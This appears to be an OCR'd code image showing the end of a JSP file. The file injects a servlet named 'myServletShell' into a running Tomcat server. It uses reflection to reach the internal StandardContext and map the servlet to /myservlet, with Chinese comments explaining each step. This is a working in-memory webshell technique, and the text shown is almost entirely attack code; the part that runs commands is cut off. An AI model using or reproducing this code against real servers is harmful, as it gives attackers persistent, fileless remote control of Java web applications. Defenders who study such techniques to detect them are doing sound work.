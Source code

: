 ```plain
                resp.getWriter().write(out);
            } catch (Exception e) {}
        }
    }

    @Override
    public void destroy() {
        super.destroy();
    }
}
%>

<%
    try {
        String myServletname = "myServletShell";

        // 获取应用程序上下文对象(ApplicationContextFacade)
        ServletContext servletContext = request.getSession().getServletContext();

        if(servletContext.getServletRegistration(myServletname) == null) {
            // 获取ApplicationContext
            Field applicationContextField = servletContext.getClass().getDeclaredField("context");
            applicationContextField.setAccessible(true);
            ApplicationContext applicationContext = (ApplicationContext) applicationContextField.get(servletContext);

            // 获取StandardContext
            Field standardConextField = applicationContext.getClass().getDeclaredField("context");
            standardConextField.setAccessible(true);
            StandardContext standardContext = (StandardContext) standardConextField.get(applicationContext);

            // 创建自定义的servlet
            MyServlet myServlet = new MyServlet();

            // 使用Wrapper封装Servlet
            Wrapper wrapper = standardContext.createWrapper();
            wrapper.setName(myServletname);
            wrapper.setServletClass(myServlet.getClass().getName());
            wrapper.setServlet(myServlet);

            // 向standardContext中的child添加wrapper
            standardContext.addChild(wrapper);

            // 向servletMappings中添加
            standardContext.addServletMappingDecoded("/myservlet", myServletname);
        }
    } catch (Exception e) {
        e.printStackTrace();
    }
%>
```
